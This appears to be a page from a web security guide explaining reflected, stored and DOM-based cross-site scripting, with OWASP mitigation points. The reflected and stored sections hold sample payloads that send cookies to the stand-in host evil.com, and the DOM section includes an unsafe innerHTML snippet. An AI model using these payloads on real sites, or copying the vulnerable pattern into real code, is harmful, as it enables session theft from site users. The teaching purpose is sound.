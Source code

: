 ```yaml
---
name: Cross-site scripting (XSS)
menu: Attacks explained
route: /attacks_explained/cross-site_scripting_xss
---
```


# Cross-site scripting (XSS)


## The Attack

<iframe width="100%" height="450"
src="https://www.youtube.com/embed/L5l9lSnNMxg">
</iframe>



## Reflected XSS

![Reflected XSS sample workflow](../../public/rxss.png)
_Image from [Christopher Makarem](https://medium.com/iocscan/reflected-cross-site-scripting-r-xss-b06c3e8d638a)_

### Keys

- The Attack is focused on the user input like crafted urls with mailicious payload.

### Example

It is very simple to add a malicious payload in a vulnerable website link.

```
http://website.com/search?keyword=<script>window.location='http://evil.com/?c='+document.cookie</script>
```

The victim will open this link and will be redirected to a malicious site with the cookie content in the URL.

Inside the malicious code we can add extra payloads like (ajax calls... )


## persistent XSS


![p-XSS sample workflow](../../public/pxss.png)
_Image from [Christopher Makarem](https://medium.com/iocscan/persistent-cross-site-scripting-p-xss-557c70377554)_

### Keys

Also known as stored XSS. The malicious script comes from the website's database, so this attack require few steps to succeed.

- In the first step the attacker will add a malicious payload to the server (so it will be stored).
- Later on the victims will access to the site and the malicious payload will be downloaded together with the legitimate content.

This attack can lead to Cookie theft, KeyLogging, Phishing...

### Example

The attacker add a malicious payload in the comments section of the site.

```
POST "http://website.com/blog/post-1/comment", body{"<script>window.location='http://evil.com/?c='+document.cookie</script>}
```

So any user that visits the website will be vulnerable once this malicious comment is loaded.


## DOM XSS


![DOM-XSS sample workflow](../../public/dom_xss.png)
_Image from [Christopher Makarem](https://medium.com/iocscan/dom-based-cross-site-scripting-dom-xss-3396453364fd)_

### Keys 

If the attacker control any input field value, they can easily add malicious values:

```js
const search = document.getElementById('search').value;
document.getElementById('results').innerHTML = `You searched for: ${search}`;
```

```
You searched for: <img src=error onerror='/* Evil payload */'>
```

### Notable incidents

- [The Telegraph | TweetDeck hack hits BBC and White House accounts](https://www.telegraph.co.uk/technology/twitter/10894635/BBC-and-White-House-accounts-in-TweetDeck-hack.html)
- [VICE | The MySpace Worm that Changed the Internet Forever](https://www.vice.com/en_us/article/wnjwb4/the-myspace-worm-that-changed-the-internet-forever)


## The solution

There are no definitive solutions to avoid this attack but can be highly mitigated.

## Mitigation

### [Keys from OWASP Cheat sheets for XSS](https://cheatsheetseries.owasp.org/cheatsheets/Cross_Site_Scripting_Prevention_Cheat_Sheet.html)

- 0 - Never Insert Untrusted Data Except in Allowed Locations
- 1 - HTML Escape Before Inserting Untrusted Data into HTML Element Content
- 2 - Attribute Escape Before Inserting Untrusted Data into HTML Common Attributes
- 3 - JavaScript Escape Before Inserting Untrusted Data into JavaScript Data Values
- 3.1 - HTML escape JSON values in an HTML context and read the data with `JSON.parse`
- 4 - CSS Escape And Strictly Validate Before Inserting Untrusted Data into HTML Style Property Values
- 5 - URL Escape Before Inserting Untrusted Data into HTML URL Parameter Values
- 6 - Sanitize HTML Markup with a Library Designed for the Job
- 7 - Avoid JavaScript URL's


### [Keys from OWASP Cheat sheets for DOM XSS](https://cheatsheetseries.owasp.org/cheatsheets/DOM_based_XSS_Prevention_Cheat_Sheet.html)

- 1 - HTML Escape then JavaScript Escape Before Inserting Untrusted Data into HTML Subcontext within the Execution Context
- 2 - JavaScript Escape Before Inserting Untrusted Data into HTML Attribute Subcontext within the Execution Context
- 3 - Be Careful when Inserting Untrusted Data into the Event Handler and JavaScript code Subcontexts within an Execution Context
- 4 - JavaScript Escape Before Inserting Untrusted Data into the CSS Attribute Subcontext within the Execution Context
- 5 - URL Escape then JavaScript Escape Before Inserting Untrusted Data into URL Attribute Subcontext within the Execution Context
- 6 - Populate the DOM using safe JavaScript functions or properties
- 7 - Fixing DOM Cross-site Scripting Vulnerabilities


### Other
- The [Recommendations for HTTP Headers in this guide](/http_headers/)
- The [Best practices for Express in this guide](/best_practices/express)
- The [Best practices for React in this guide](/best_practices/react)



### Refs
- [ckarande | Top Overlooked Security Threats to Node.js Web Applications](https://speakerdeck.com/ckarande/top-overlooked-security-threats-to-node-dot-js-web-applications?slide=24)
- [Scott Smith | Cross Site Scripting (XSS)](http://scottksmith.com/blog/2015/06/22/secure-node-apps-against-owasp-top-10-cross-site-scripting/)
- [portswigger | Cross-site scripting](https://portswigger.net/web-security/cross-site-scripting)
- [Medium | Persistent Cross Site Scripting (p-XSS)](https://medium.com/iocscan/persistent-cross-site-scripting-p-xss-557c70377554)
- [Medium | DOM-Based Cross Site Scripting (DOM-XSS)](https://medium.com/iocscan/dom-based-cross-site-scripting-dom-xss-3396453364fd)
- [Medium | Reflected Cross Site Scripting (r-XSS)](https://medium.com/iocscan/reflected-cross-site-scripting-r-xss-b06c3e8d638a)
- [Computerphile | Cracking Websites with Cross Site Scripting](https://www.youtube.com/watch?v=L5l9lSnNMxg)